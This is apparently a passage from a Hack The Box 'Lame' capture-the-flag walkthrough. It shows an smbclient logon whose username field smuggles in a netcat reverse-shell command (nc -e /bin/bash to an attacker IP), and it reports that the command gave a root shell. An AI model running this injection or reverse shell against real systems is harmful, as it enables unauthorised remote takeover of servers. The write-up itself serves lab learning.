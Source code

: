 
```bash
smb: \> logon "/=`nohup nc 10.10.14.2 5456 -e /bin/bash`"
Password:  whateveryouwannainput                                                                                                                                                          
session setup failed: NT_STATUS_LOGON_FAILURE                        
smb: \> 
```

And we got the revshell as root!

<p align="center">
  <img src="/images/walkthroughs/hackthebox/lame/3_0_root.png" width="80%"/>
</p>

Now we can grab the root and user flag.